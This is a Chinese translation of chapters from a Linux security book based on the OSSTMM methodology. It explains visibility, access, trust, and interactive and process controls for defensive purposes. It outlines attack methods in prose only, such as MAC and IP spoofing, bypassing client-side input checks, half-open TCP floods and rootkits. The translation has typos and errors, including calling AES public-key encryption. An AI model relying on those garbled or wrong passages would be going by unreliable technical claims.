通道是攻击的模式。攻击与其目标是物理性的，并在这些通道上或通过这些通道发生。在 OSSTMM 中，通道被分为五类：物理（可见且可触碰）、无线（在已知电磁频谱内）、人类（在人类思维和情感范围内）、电信（模拟通信）和数据网络（数据包通信）。这些通道是重叠的，许多技术将它们合为一种交互体验。例如，简单的邮件服务器通常会通过人类（钓鱼）、物理（盗窃）和数据网络（邮件中继）通道受到攻击。

矢量是攻击的方向。安全需要根据攻击矢量进行设计。如果某个矢量不存在分离，那么该矢量就是不安全的。典型的邮件服务器有三种交互：物理来自房间、通过数据网络来自本地、再次来自互联网。

索引是量化范围内目标对象的方法，以便每个对象都能被唯一标识。在安全的范围内，这些目标对象将是资产或资产的网关。Linux 服务器是一个目标，可以通过物理标记或通过数据网络的 MAC 地址或 IP 地址进行索引，假设这三者在它的交互矢量中是唯一的。

# 安全的要素

安全本身是可以定义的，但要衡量它，我们仍然需要进一步检查。资产与威胁分离并不是最基本的形式。分离实际上是通过结合三个要素创建的：可见性（visibility）、访问性（access）和信任（trust）。为了更好地理解这三个分类，让我们结合特定的攻击来看它们。

# 可见性

| 流行度 | 10 |

| 简单 | 10 |

| 影响 | 1 |

| 风险评分 | 7 |

可见性是安全中定义机会的部分。攻击者看到、知道或可以利用的信息可以提高攻击的成功率，甚至作为投入精力的理由（包括攻击值得投入多少精力），都会损害安全的有效性。如果攻击者看不到它，或者他没有手段或理由攻击。

典型的基于互联网的 Linux 服务器如果其运行的服务被配置为响应 `ping`，通常在数据网络上是可见的。然而，如果系统被用于整形或路由流量而不增加数据包的生存时间（TTL）值，某些配置可能是不可见的。运行网络入侵检测的 Linux

入侵检测系统 (`IDS`) 也可以被动地捕获流量，并因为不响应探测而变得不可见。

## 隐形

虽然在物理领域“隐形”是一项艰巨的任务，但在数据网络上并不困难。要实现隐形，服务器只需要不让自己暴露出来即可。它必须是被动的，不对任何探测或查询做出响应；而对于系统本身故意回答请求的所有数据包回复，`DROP ALL` 是最有效的 IP 链配置。

你必须知道哪些向量可以看到该系统。系统可能在某个向量（如内网）是可见的，但在互联网上是不可见的，因为其既没有 IP 地址，也没有外部流量路由到它那里。让不需要了解该系统的人无法发现其存在，可以减小攻击面，从而减少攻击机会。

遗憾的是，可见性是大多数服务的必要组成部分，因为营销是所有业务的核心；你必须展示你的商品才能售出。因此，必须在“最大化服务的可用性和效率”与“最小化暴露风险”之间取得正确的平衡。

| 流行度 | 10 |

| :--- | :--- |

| 简单性 | 1 |

| 影响力 | 10 |

| 风险评分 | 7 |

访问是实现交互的手段。交互性可以是对服务请求的响应，甚至是能够将其拿起并带走。警察的研究表明，访问是合适目标的组成部分之一。移除访问权限即可缩小攻击面。留出访问权限你就会邀请盗窃。然而，提供服务也需要访问权限。

没有交互、没有访问，服务就不存在。就像可见性一样，访问是开展业务的必要组件，但在访问多少度问题上往往会犯错。

## 拒绝访问

防止访问最简单的方法就是不提供访问。在物理上将资产与威胁隔离开是最有威慑力的。在渗透测试期间，最常见的问题可以归因于某些本不需要运行的服务或应用程序。Linux 最大的优势在于能够轻松地选择哪些端口是开启的，哪些服务正在运行。这是对于新安装的 Linux 系统所要做出的第一个决策。

通常，出于效率考虑对无限访问的需求或对便利的渴望，会导致人们误认为访问不需要对称性。你可以从一个向量提供完全访问，而在另一个向量上并不提供，就像房子的房间可以对外部人员锁定，但内部的人员可以自由移动一样。此外，系统可以在某些通道拒绝访问，而在另一些通道上部分开放。因此，系统在物理上是可以访问的，但无法通过网络访问。或者可以通过拨号调制调器访问，但无法直接从互联网访问。无论通过何种通道，访问都意味着威胁直接尝试与目标。

然而，数据网络访问并不是访问服务器的唯一手段。物理访问、调制调器访问、无线访问，甚至是足够近到获取电磁辐射的能力都提供了攻击系统的手段。

## 信任

| | |

| :--- | :--- |

| 流行度: | 5 |

| 简单性: | 5 |

| 影响力: | 10 |

| 风险评分: | 7 |

在安全示例中，信任是指范围内目标之间任何未经身份验证的交互。例如，Web 可能会与数据库服务器交互，而不需要身份验证或特地识别自己的身份。（实际上，请求的 IP 地址可能被视为一种弱的识别标准，就像人衣服上的名牌并不是特定个人的合格身份证明一样。）当攻击者发现直接交互的机会时，信任对于间接交互很有用。目前，犯罪分子偷取任何东西有两种方法：自己拿，或者让别人去拿。利用信任意味着让某人替他们偷，并直接交接。

任何对事物进行安全防护的人都应该知道，那些访问资产的人对安全性的威胁，丝不亚于完全没有安全措施。当然，风险数字表明，如果人们经过适当配置（培训与习惯相结合），他们对未知风险会更安全。然而，人们有时倾向于表现出自由意志或非理性行为，这使得从长远来看他们基本上是无法配置的。坦率地说，计算机系统可以保持配置多年。然而，系统配置的僵化使其更容易被欺骗。因此，在安全环境中，赋予人类信任是危险的，因为他们拥有太多自由；而信任计算机系统是危险的，因为它太缺乏环境敏感性，并且非常轻信。考虑以下场景。

一名犯罪分子拨打银行客户服务中心，利用从受害者那里获取的基本信息，要求更改一张被盗银行卡的账户 码。客服代表对安全问题的其中一个答案不满意，拒绝了更改。犯罪分子向代表哀求并讲述了一个动人的故事。于是代表又尝试了几个“安全”问题，然后

## 第 1 章：应用安全

当代表询问最喜欢的颜色时，犯罪分子成功回答了“蓝色”，代表随后更改了 `PIN` 码。

计算机系统不会询问更多安全问题，并在第一次失败后就会停止交互，要求犯罪分子重新登录。登录失败后，犯罪分子尝试了另一个账户的另一张卡。在对整个卡片数据库进行了数百次尝试后，犯罪分子最终成功猜中了其中一个随机问题的答案。系统允许了这一点，因为它不区分是否是同一个用户从相同的位置或 IP 地址进行查询，并再次使用不同的身份。你可以想象一个犯罪分子在同一台 ATM 机器上尝试 100 张 ATM 卡，并将每张卡的 `PIN` 码都输入为 1234。ATM 机器没有一次停下来说：“嘿，我不认识你吗？”如果犯罪分子对银行柜员这样做，那么当他/她遇到第三个错误的 ATM 卡 `PIN` 码时，柜员就会报警了。

妥善应用安全意味着攻击面被限制在已知且所需的可用服务上。对于 Linux 系统的任何所有用例，攻击可能发生在何处不应有任何疑问。通过确保安全中唯一的漏洞是那些为了生产力而插入的有意留口，那么只有这些有意的漏洞应该是允许被攻击的，而不应有其他漏洞。

## 第 2 章

## 应用交互式控制

### 案例研究

事实仍然是，没有人考虑过去问问那个人是谁。他竟然出现在这里，这一事实意味着他必须走到安保台，然后必须持有卡才能进入服务器室。因此，每个人都认为他应该在这里——至少那些被警方采访的人是这么这么说的。


“某人是如何直接带走我们整个备份带库的？”一位看起来非常紧张的 CEO 问向安全主管。

当这一事件发生时，Jack 担任安全主管恰好只有两周。他被聘佣在一个管理非常松散的组织中，前任安全主管因为处理医疗问题提前几年退休了。当 Jack 环顾四周时，他看到一个秘密依赖于通用访问控制的组织，尽管其员工流动率很高。人们进进出出，几乎没有经过筛选。几乎每天都有新的食堂员工供应当日的蔬菜，几乎每天都有不同的清洁工在走廊里徘荡。两周的时间足以让守卫至少记录下送货人员的 ID 信息，但远不足以改变这种糟糕的安全文化——在这种文化中，人们对“谁想要坑他们”的假设给予了过度的信任。

“这不该发生，”CEO 抱怨道，“谁会从便利店办公室偷数据？”Jack 建议道。

CEO 狐疑地盯着这位新的安全主管。“小偷带走了我们的磁带。”

“我们所有的磁带，”Jack 补充道。

“现在怎么办？我们遇到了一次百万分之一的事故。这种事发生的概率应该小到绝不会再次发生了。”

“安全并不是那样运作的，”Jack 解释道，“我们的攻击面很小。暴露在外部的东西非常少。但一旦进入内部，安全措施很少，因为没人提问，没人监控任何人，也没有人对威胁做出反应，因为没人知道这里到底有多少人在。”

“那么开启门所需的 ID 牌和 RFID 卡呢？大门的守卫呢？一箱磁带是如何离开的？”

“不一定非得带走，”Jack 对困惑的 CEO 说，“你上一次在别人走过你时查看他们的照片 ID 是什么时候？你可以轻松地跟在身后进门。如果他以前在这里工作过，那就更简单了。不简单的是把一大箱磁带带出建筑。”

“所以它们没丢？”CEO 充满希望地问。

“不一定，它们可能被藏起来了。如果被藏起来，我们就可以使用它们，这实际上等同于被盗。以前在这里工作过的人知道他永远无法把箱子带出门，但清洁人员可以。极可能，这些磁带在昨晚最后一次备份后被放入垃圾，并在半夜被运到了垃圾桶。清洁工并不知道我们为什么要扔掉一满满磁带的桶。”

警察搜查了房间周围的垃圾桶，发现它们确实都是空的。

“那么它们会在外面的垃圾桶里，等着和其他所有垃圾一起被运走？”CEO 松了一口气说。

“不，很可能它们已经离开了。”

果不其然，警察从被偷的 40 卷磁带中找回了一卷，因为它们和其他垃圾混在了一起。剩下的全部消失了。

“你不能仅仅依靠安全来建立安全文化，”Jack 向 CEO 解释道，“交互式控制允许我们保护对资产的访问，无论这种访问来自何处。现在对于通过门进入的人，只有身份验证控制，我们对资产的直接交互完全是盲目的；资产可以从我们的眼皮底下直接溜走。”

“那就修好它，”CEO 告诉他。

Jack 只花了几周时间解决了缺失的控制问题，但企业文化仍需要数年时间进化到可以避免此类盗窃发生的程度。

人们在应用交互式控制时面临的最大问题是，在使用当时它们的限制有多大。人们习惯了某种程度的自由，但交互式控制会抑制许多他们认为理所当然的自由。这些控制自安全诞生起就存在了。它们被独裁者和暴君残酷地应用于统治国家，原因与其相同。幸运的是，这些控制也能让你以一种务实的方式保护系统。

应用安全意味着针对特定矢量将资产与威胁分离。但如果你也想访问这些资产呢？如果你想允许某些人访问这些资产，但不允许其他人呢？你需要以某种方式控制与这些资产的交互。为了做到这一点，你应用五种交互式控制中的任何一种。

## 五种交互式控制

攻击面是在范围内可以交互的地方。这个表面是通往资产的入口的暴露。为了通过控制资产访问或最小化攻击可能的影响来保护这些暴露，可以应用这五种控制中的任何或全部。`OSSTMM` 定义这五种控制为：

这五种控制可以一起使用，为交互攻击面创建最可能的保护，也可以单独使用以提供更大的灵活性。通常，服务的成功交付取决于放宽控制以实现更好的接触。这些控制的施加强度取决于执行者的裁量；然而，建议从最大程度控制开始，根据需要放宽。

### 破解与规避验证

| 指标 | 流行度 |
| :--- | :--- |
| 简单性 | 10 |
| 影响 | 10 |
| 风险评估 | 10 |

身份验证可以采取任何形式，无论是基于白名单、黑名单还是两者的结合；它本身不需要是登录/密码。因此，像病毒软件这样的解决方案可以被视为黑名单，因为它像解析器一样搜索所有数据。如果它无法与签名匹配，就会允许数据通过。这解释了为什么病毒软件对新病毒和旧病毒变异体无效。

## 第二章：应用交互式控制

认证攻击不仅针对登录/密码方案，还针对规避、操纵和伪造。攻击也可以测试任何形式认证的技术。要理解这些技术，你必须首先理解认证流程，该流程在正常情况下总是按以下顺序进行：

1. 识别代理：确定谁或什么将被访问或交互，以及识别何时以及何时进行。
2. 授权代理：提供许可，无论是隐含的还是以代理必须持有或显示的令牌形式。
3. 认证代理：根据特定标准验证代理的授权。

要破解认证控制，你必须攻击这三个部分中的至少一个。

### 破解认证过程

认证过程可以通过多种方式攻击。通常，当 `Linux` 系统上发现认证控制时，它们表现为系统和服务的登录/密码、恶意软件检测器（如木马和根后程序扫描器）、`SPAM` 过滤以及适当的用户检测（如 `CAPTCHA`）。要破解这些类型的认证控制，你必须攻击过程的所有部分：

- 暴力破解 `Brute-force`：尝试所有可能的字符组合
- 字典攻击 `Dictionary`：根据设置标准的语言中的单词尝试所有合理的组合
- 绕过 `Circumvention`：绕过识别和认证验证过程
- 污染 `Taint`：更改识别标准以包含攻击代理
- 欺诈 `Fraud`：用虚假身份欺骗识别标准
- 劫持 `Hijack`：盗取代理的身份或授权令牌
- 拒绝 `Deny`：用有效和无效请求淹没识别过程，以便在不被发现的情况下溜入

## 确保身份验证

认证是一个同时需要凭据 `credentials` 和授权来完成交互的过程。此外，获取凭据和授权都需要身份识别 `identification`。因此，你必须对任何对象进行识别和授权才能完成认证。这确保了认证的有效性。

在设计认证流程时，请检查该流程中每个部分的局限性。通过概述流程并确定任何局限性，你可以了解认证将如何工作，以及通过控制访问其有效性如何。

为了防止欺诈，请勿发布登录名的命名规范，并保持代理或用户识别标准的保密。由于命名规范明显导致登录名易被破解会削弱该流程，此时攻击者只需要猜测或强制破解密码。保护登录名和密码可以抑制攻击者并加强流程。应仅允许本地访问使用预测的、常见的或易猜的账户名称，以最大地减少字典攻击。

为了应对暴力攻击，应改进至少八个字符加符号的密码以增加复杂度。这一要求将延长成功破解密码所需的总时间。

保护系统或服务不被过载可能是困难，因为控制措施往往在过载时失效。在接受输入后通过简单的暂停来减缓响应速度，可以防止暴力破解程序消耗过多的系统资源，导致猜测速度快到管理员无法响应。然而，这对于垃圾邮件和恶意软件扫描器来说没有意义，因为它们应该尽可能快地运行以验证“好”的并删除“坏”的。有时这种拒绝是以解析器为代价的，即使用极大的文件或极深的目录结构来耗尽服务。限制认证验证的范围是另一种保护资源不被白浪费的方法。

当验证过程受到外部建议的影响时，依赖于的验证过程必须不断监控其完整性变化。如果文件可以发生更改，那么任何入侵者都可以将自己加入接受列表。某些恶意软件和根内核被设计在安装之前从扫描器中移除其签名。垃圾邮件发送者众之会投毒禁止他们的黑洞数据库。即使投毒 `DNS` 的攻击也会提供通过域名认证的系统的访问。需要对这些信息存储的完整性和/或安全性保持持续警惕，以确保认证过程能够继续正常工作。

通常，攻击者会使用伪装，这就是为什么许多攻击集中于欺诈和绕过。黑名单最容易被骗，因为它们寻找特定的内容进行拒绝。任何偏离预期的更改都会欺骗授权验证，就像穿上服装可能会欺骗哨兵一样。白名单同样会被欺骗。由于白名单包含所有可接受内容的列表并拒绝任何非接受内容，攻击者需要像列表中的东西。仅接受 `MAC` 地址的无线 `MAC` 过滤器会被从空气中嗅探正确的 `MAC` 地址并在未经授权的笔记本电脑上通过软件复制所欺骗。有时 `WiFi` 连接点使用 `MAC` 认证，攻击者可以通过嗅探空气中的有效连接笔记本电脑，通过将他们的 `MAC` 改为付费 `MAC` 来劫持其使用时长。基于 `IP` 的认证旨在确保只有特定服务器连接到特定数据库，可以通过伪造嗅探到的 `IP` 地址并重定向网络回复来欺骗。即便如此，所谓的启发式或异常检测与白名单验证无异，即首先建立“良好”或“正常”行为，然后对所有不匹配的行为标记或拒绝。

欺诈和绕过可能变成一件复杂的事务，其中网络协议被扭曲，攻击围绕特定的时间序列发起，并且一切都自我变异以逃避检测。因此，你需要控制与认证过程的所有交互，以确保其正常运行。

## 规避责任

|  |  |
|---|---|
| 流行度: | 10 |
| 简单性: | 1 |
| 影响: | 10 |
| 风险评分: | 7 |

赔偿 `Indemnification` 是通过法律和/或保险控制资产价值，以补偿损失的实际和当前价值。目前，攻击者利用匿名性和精密性攻击赔偿。如果攻击者无法被识别或攻击无法被验证，所有者就无法起诉或追回损失。此外，如果攻击者来自或通过一个不具备或不愿意妥善监督调查的国家，那么攻击者等同于匿名。互联网是一个如此巨大的瞬时旅行世界，每个人都是每个人的隔邻。在在网上，没有所谓的好邻居。如果没有赔偿控制，你就无法执行私有财产保护。在依赖赔偿时请采取充分的预防措施。

## 确保赔偿

虽然赔偿初看起来是一个过程控制，但它确实需要交互是有效的。很多时候，赔偿控制仅仅是一个警告标志或横幅，承诺起诉继续进入未经授权区域的人。然而，在进行法律诉讼或保险索赔之前，通常必须实际发生交互。

## 暴露的 Linux：Linux 安全秘密与解决方案

将赔偿作为控制手段，你必须对所有仅供授权人员使用的服务提供免责声明。如果这些服务被他人使用，将免除所有者对任何损失或损害索赔的责任。它还需要对系统、服务、协议和操作软件进行全面的资产核算。

来自 `OSSTMM` 的风险评估值可以提供这种核算，并将安全级别作为指标进行量化。如果由认证的审计师提供，在必要时，为了保险或法律合规性，该核算本身可以经过认证。

## 跳出框架思考

|  |  |
|---|---|
| 流行度: | 5 |
| 简单性: | 5 |
| 影响: | 10 |
| 风险评分: | 7 |

终极安全需要控制每一次交互的每一个方面。然而，做到这一点不仅仅是认证，认证必须假设某些信任以允许授权人员执行特定操作。为了确保该人员不会尝试范围之外甚至安全措施想象之外的事物，最好的方法是在未明确允许的情况下对所有交互进行受制。

在 `Linux` 系统或服务中发现受制控制，就像是在一场戏中。所有的台词和动作都是经过编写的，在场景内几乎无法做任何事情或即兴发挥。交互选择是有限的，这些选择的结果也是良好定义的。这看起来没有破解的空间，但事实并非如此。

在受制控制下攻击是可能的。受制限制通常是针对输入的，通常是一个交互的白名单，允许用户从特定操作中进行选择。如果操作不在列表中，则会被果断拒绝。当存在有效的受制控制系统时 `例如使用可信平台模块 TPM 等可信计算硬件的系统`，内存泄漏和通过不当输入验证提升权限漏洞就不可能存在。成功的攻击必须关注其他地方。

- 攻击交互的方式，而不是可以交互的对象。无论限制是在协议、通信中使用的函数调用、交互来源向量，还是可接受的使用列表中，大多数成功的攻击都是针对通信过程和白名单实现的。例如，`JavaScript` 经常用于网页上以控制输入；然而，攻击者通常可以轻松绕过这一点，只需在重新加载浏览器页面之前，在本地保存并移除页面上的输入限制。

## 第 2 章：应用交互控制

- 攻击因实施服控制 `subjugation controls` 而产生的泄露。

从服控制需要同时与其自身的白名单以及用户进行交互。取决于攻击者的目标，能够访问这种通信可能是获取未经授权信息的一种很有价值的方法。仅仅了解该过程的工作原理——函数是如何被调用的或协议是如何运行的——对于攻击系统来说可能是必要且有用的。

从更低层次亲自征服系统。操作系统的 `Linux` 内核实际上是尽可能的。无论是通过物理攻击还是安全攻击 `例如进入数据中心或欺骗特权用户——最好是 root——运行恶意代码`，内核本身都可以通过污染模块或根基工具 `rootkits` 被征服。这可以使攻击者控制整个系统以及运行在其底部的任何虚拟系统——至少持续到下一次重启为止 `假设存在并应用了硬件 TPM`。

## 要求实施适当的从服

从服是资产资源对交互的保护和限制的本地化源控制。这些控制可以是接受输入的子集，但也包括所有所有规定某种不可妥协的安全等级的情况，例如 `SSH` 中使用的加密级别、访问特定网站的 `HTTPS` 安全性，或者使用强预选密码而非用户定义的密码。

正确实施的从服需要精确定义用户的角色和范围、可访问和可用的应用程序，以及这些应用程序在系统上的角色和范围。这意味着，如果没有其他控制提供侧面保护，从服本身无法良好工作，例如：确保规则的身份验证；保护通信通道的隐私和机密性；维护更改状态的完整性；以及当无论角色如何访问系统上的其他应用程序或数据存储器时通知管理员的报警。

最重要的是，所有的从服控制必须从用户无法访问或影响的向量启动。由于针对这种控制的攻击可以通过物理上向服务器放置启动磁盘并修改终端以运行具有 `root` 权限的人运行的恶意软件，因此所有此类向量都必须受到保护。记住，即使是控制台游戏 `大多数用户对以特殊卡带形式存在的从服控制非常熟悉，这些卡带需要特定的解码知识和硬件`，它们也会被黑客破解并读取，因为用户可以访问卡带的所有向量。这也是为什么数字权利管理 `DRM` 在 `CD` 和 `DVD` 上失败的原因。

## 拒绝服务

| 流行度 | 5 |
| --- | --- |
| 简单性 | 10 |
| 影响 | 10 |
| 风险评分: | 8 |

某些攻击并不是为了读取、盗取或破坏信息和应用程序。某些攻击仅仅是为了通过拒绝访问这些内容来防止他人这样做。攻击者通过以下方式实现这一点：

- 滥用和耗尽内存资源导致服务器无法为他人提供服务：例如半开放攻击，它通过打开并保持所有 `TCP` 连接来阻塞服务的资源，导致它们超时而不是通过带有 `FIN` `完成` 或 `RST` `重置` 标记的数据包关闭。
- 淹没入站网关导致服务器无法为他人提供服务：这种攻击互联网上的分布式僵尸主机非常流行，通过恶意软件获取并用于发送巨大的数据包风暴来淹没极快的网络连接带宽。
- 在服务器上隐藏或将信息劫质：这种攻击在 20 世纪 90 年代通过病毒流行起来，病毒会加密硬盘内容并要求支付赎金。这类攻击也成为一个研究领域——隐身术，它处理在内部隐藏信息。

这些通常关乎计算世界中尺寸至重要的事实。更宽的网络管道总是能够淹没较细的管道。更大的内存存储器和更大的磁盘存储器会比小的存储得更久且耗尽更慢。更多的处理器将比速度相同甚至有时更快的少数处理器处理能力更。计算硬件的整个动态取决于其资源的大小。许多成功的攻击通常需要超越目标。

然而，在某些情况下，尺寸可能会成为问题。特别是当尺寸导致复杂性 `或当复杂性导致尺寸增加时，问题实际上是相同的`，相同的尺寸攻击面仍然存在，但正确配置和保护复杂系统的困难可能会导致自发引起的问题，如拒绝服务。在复杂系统中隐藏事物也更容易。被劫质的信息在复杂系统中可能更有害，因为可能有更多的组件依赖于该信息。

## 创建连续性

连续性是在发生损坏或失败时维持对资产访问的进程控制。这种控制的常见应用包括生存性、冗余和容错能力。连续性是无论受到攻击还是自发故障都能提供服务的手段。

所有适用形式的拒绝服务保护近年来受到了大量媒体关注。然而，许多人并不理解连续性一直是一个受欢迎的控制，因为它是一个非常可见且非常实用的网。例如，你可以安全地假设，数据备份和分布式文件服务器解决方案比公司任何其他控制都要得多，投入也大得多。当我们引入冗余系统 `如用于域名服务、邮件中继和 Web 服务的` 时，组织使用连续性控制的比例更高。理解这一点是，通常当人们谈论系统安全时，指的是针对系统的攻击。安全远不止于此。它不仅受到攻击的保护，还受到错误和非常人为的失误的保护。连续性是防止这些错误的手段，其价值比媒体中经常演习的标准攻击类型要高得多。

创建控制非常简单。首先，绘制服务或流程图以可视化正在发生什么。接下来，确定与不可信和“信任”用户、源和网络的交互点在哪里。最后，确保不可信侧的任何这些点都不会成为单点故障，并且不可信侧的所有点在发生错误时都受到保护。显然，你必须考虑成本，并关注你在停机时损失最大的地方。

## 拒绝保护

|  |  |
|---|---|
| 流行度 | 9 |
| 简单性 | 10 |
| 影响 | 10 |
| 风险评分 | 10 |

弹性韧性的设计不是为了减少目标的攻击面，但它将确保当其他控制失效时，它们失效的方式能够让资产与威胁立即分离。攻击这种控制是导致合法用户遭受拒绝服务的手段。

弹性韧性控制的真相是，对于大多数实现来说，它们与连续性控制是冲突的。在网络规模上实施这些控制，在发生攻击时而不关闭整个网络是非常困难的。然而，许多网络入侵防御系统和某些防火墙具有弹性韧性。此外，它通常以一种糟糕或随机的方式实施，每个人都可以触发控制并影响所有人。一个很好的例子是，当糟糕的交互触发弹性韧性控制将攻击者的 `IP` 地址添加到忽略和拒绝服务的 `IP` 列表中。攻击者随后会伪造网关路由器或其他内部服务器的 `IP` 地址，从而拒绝自己网络内部流量并有效地将自己排除。

让弹性韧性代码自食其果的技巧现在滥用的效果变小了。大多数这些系统都配置为不拒绝 `IP` 范围，

这可以有效保护他们免受此类攻击。然而，仍然可能使用伪造 `IP` 发送攻击，导致合作伙伴、客户以及依赖访问这些服务的其他人无法访问。

## 创建弹性 `Creating Resiliency`

弹性意味着通过控制安全机制，在发生损坏或故障时为资产提供持续保护。弹性也被称为*安全失效 `fail-safely`*。

当应用弹性时，它通常表现为拒绝服务的形式，这意味着缺乏连续性控制。应用弹性控制等同于在太阳落山时关门营业。有了弹性，你仍然可以关门，并将所有客户重路由到太阳依然升起的商店。对于客户而言，网络层面的重路由几乎是瞬时完成的。然而，什么能阻止攻击者反复对每个带有弹性控制的服务器使用相同的攻击手段呢？遗憾的是，这就是弹性的工作方式。


当部署了弹性控制后，威胁在攻击发生的瞬间就会与资产隔离开。以 Linux 服务器为例，它会在攻击到达时实时将 IP 加入黑名单，然后将其到冗余服务器；该服务可能运行在不同类型的操作系统、不同的内核级别，为同一服务运行不同的服务守护进程，甚至位于具有更严格规则的防火墙之后。这允许主服务器为普通公众服务并快速响应请求。当攻击到达时，数据包会被路由到一个仍然会响应但可能不受该类型攻击影响的服务器，且该服务器将拥有更严格的规则。这将不可避免地使其变慢并限制其能响应的连接数，但因为不是主公共服务器，用户不会察觉到负载。

其他类型的弹性控制针对应用程序本身。良好的弹性控制将允许出现故障或滥用内存空间的应用程序完全失败并从内存中移除自身，而不是在操作系统内部创建一个安全漏洞。对于许多用户应用程序来说，这可能并不方便，因为这要求程序在磁盘和内存使用的语境下编写得完美无，，事实并非如此。此类应用程序的失败意味着，例如，文字处理器在用户写作时会立即失效并消失，且没有任何警告。这将严重影响用户对应用程序的信任，并由于多年来的低效率给用户和公司带来巨大损失。

### 总结

在本章中，我们涵盖了所有的交互式控制：身份验证（Authentication）、赔偿（Indemnification）、隶从（Subjugation）、连续性（Continuity）和弹性（Resiliency）。这五项控制都能在没有安全措施但仍需管理威胁的情况下增强保护。

身份验证根据特定标准和识别这些标准的手段来阻止或允许访问。这扩展到了登录和密码，或基于解析器的扫描器（如防病毒扫描器）。

赔偿是一种通过法律手段或保险媒介从攻击中追回损失的控制方法。这种控制要求在攻击发生时捕获它，或者能够证明它已经发生，以便将其归类为责任或损失。

隶是从是一种预判用户需求并允许他们在这些指南内进行任何操作的控制方法。控制交互的源永远不能进入用户的控制范围。

连续性是一种确保服务在危机后仍然可用的控制方法。连续性可能属于不同的类别，例如负载均衡或冗余，并跨越多个通道，例如在 Web 服务器宕机时允许用户通过电话访问服务。

弹性是一种确保服务以安全方式失效的控制方法。在攻击发生点，服务不应以可以被利用或导致资产暴露的方式失效。遗憾的是，弹性也可以是某种自我拒绝服务的形式。

## 第 3 章

## 应用流程控制

### 案例研究

在绿谷银行和信托（Green Valley Bank and Trust）经历过最大的单次黑客入侵尘埃落定后，网络管理员艾德里安（Adrian）大笑了起来。多达 20 年前的 3 万多客户的信贷和银行信息被盗取，公关部门正紧张地为新闻稿准备声明，以防消息泄露。一位经理瞥了艾德里安一眼，示意他大笑是非常不妥的，于是他迅速恢复了最严肃的表情。

# 黑客攻防 Linux：Linux 安全机密与解决方案

一旦资产能够从威胁中分离，该资产即被认为是安全的。如果你需要允许以特定方式、通过特定人员或进程访问资产，你将使用交互式控制（interactive controls）来确保资产处于特定的边界之内。然而，当资产处于运动中或处于你无法控制的环境时，会发生什么呢？对于这些情况，则存在过程控制（process controls）。

过程控制可能是信息时代应用最广泛的控制手段。在交互式控制与交互产生冲突时，控制措施会在不需要访问权限的情况下保护资产。因此，随着通信的增加和个人隐私变得日益重要和珍贵，这五种过程控制变得更加至关重要。

# 五大过程控制

一旦信息离开范围或进入信任度较低的区域，交互式控制就不再起作用了。例如，通过 P2P 网络进行文件共享需要访问大量信息，这些信息会根据需求在系统与系统之间传输。此时此，交互式控制无法有效防止未经授权的人员访问这些信息。即使是执法部门也无法有效根除访问未经授权文件的人员数量。然而，如果文件受到过程控制的保护，它们将无法被他人使用或读取。OSSTMM 将这五种控制定义为：

- 不否认性（Non-repudiation）
- 机密性（Confidentiality）
- 隐私（Privacy）
- 完整性（Integrity）
- 告警（Alarm）

这五种控制可以结合使用，对过程中的资产创建最可能的控制，通常是在资产于人员之间或安全区域之外传递时。通常服务的成功交付取决于放松控制以实现最佳的服务效率。正如上一章提到的，建议从大量的控制开始并根据需要进行放松，而不是相反，从受保护的状态开始构建。

# 第 3 章：应用过程控制

### 无脸且无迹

| 指标 | 值 |
| :--- | :--- |
| 流行度 | 10 |
| 简单性 | 10 |
| 影响 | 10 |
| 风险等级 | 10 |

无法被追踪且不留痕迹是任何攻击者渴望的特质。如果攻击是可能的，在失败时能否以完全匿名的方式进行？不否认性控制由系统所有者实施，他们希望确保所有的交互都被记录，以便以后没有人能否认进行过交互。这种控制用在所有定义业务透明度的法规中，即使它也被用于确保访问成人材料的儿童无法否认已对内容进行充分警告，或者保护想要对购买者进行进一步验证以减少欺诈购买的在线商店。

克服不否认性在物理世界中是一项艰巨的任务，但在电子世界要容易得多，在无线世界更是轻而易举。由于不否认性控制通常只管理资产的访问，针对发送者和接收者之间运动中信息的攻击会绕过这些控制。物理世界中的类比最容易理解的是：考虑到抢劫银行本身可能会让小偷暴露在摄像头等监控设备面前，但攻击银行间转移资金的装运车的犯罪分子遇到的控制要少得多，甚至根本没有。

要避免应用恰当的不否认性是困难的，因为对资产的访问将记录时间、日期和用户的源位置。因此，攻击者必须首先攻击另一个系统并将其作为起始点。这允许攻击者创建一个链条，使得起始点通过多个系统得到充分遮蔽。幸运的是，某些攻击者会犯错，例如直接将偷来的文件下载到起始点而不是通过他们创建的链条，从而有效地泄露了自己的位置。

在被记录的情况下窃取数据的另一种方法是窃取目标与另一个用户之间传输中的数据。虽然在传输过程中应用弱加密或不加密可能是可能的，但这仍然让攻击者无法选择窃取什么数据。

### 通过不否认性实现保证

不否认性防止源无论是否获得了访问权限都否认其在任何交互中的作用。此外，这种控制还关乎记录用户的行为以及她做了什么，而是访问了哪些资产。因此，在创建不否认性控制时，请记住，仅仅记录谁在何时访问了什么是不够的，你必须记录访问是如何发生的，例如有关连接的应用程序和设备的细节，特别是当可以访问语言和区域细节时；通过 IP 地址确定的连接源和可能的物理位置；以及带有访问时间的时区信息。此类细节将更好地确保用户实际上连接到了某台机器和位置，否则攻击者可能会被关联到一个并不存在的系统上，或者一个无辜的人因为他的系统在执行攻击时被攻破而被指责。

如果不使用能更好地保证和识别用户及所访问资产的其他控制措施，仅使用不否认性控制几乎毫无意义。例如，如果没有从属控制（subjugation controls），用户就可以欺骗访问（想象一个签到表，由自己签名）。如果没有认证，对正式用户的了解将非常少，例如连接趋势和允许的连接位置。最后，如果没有像加密这样的机密性控制，服务器和用户之间的数据可能会被拦截，同时完全绕过不否认性。

### 破解机密性

| 指标 | 值 |
| :--- | :--- |
| 流行度 | 10 |
| 简单性 | 1 |
| 影响 | 10 |
| 风险等级 | 7 |

破解机密性控制已经取得了巨大且决定性的胜利。拦截并读取被遮蔽或加密的消息，而目标双方却完全不知道他们的秘密已经暴露，这是信息战争的基础。

击败现代的、经过同行评审的机密性技术（如 128 位 AES 公钥加密）需要极其巨大的计算能力和时间。使用穷破解进行直接攻击是非常困难的。然而，另一方面，当加密薄弱时，漏洞往往在密钥上。

# 第 3 章：应用过程控制

### 确保机密性

机密性是确保显示或交换的资产不会被之外的人获知的控制。加密是最常见的机密性类型，虽然模糊可能被视为一种机密性，它只需要一个专注的攻击者。

应用机密性需要使用开放且经过测试的算法，配合强密钥。使用新的、专利的加密方案是没有意义的，特别是当它们不对公开时，因为你无法确定得到什么。问题在于许多运行新方案的应用依赖于营销。

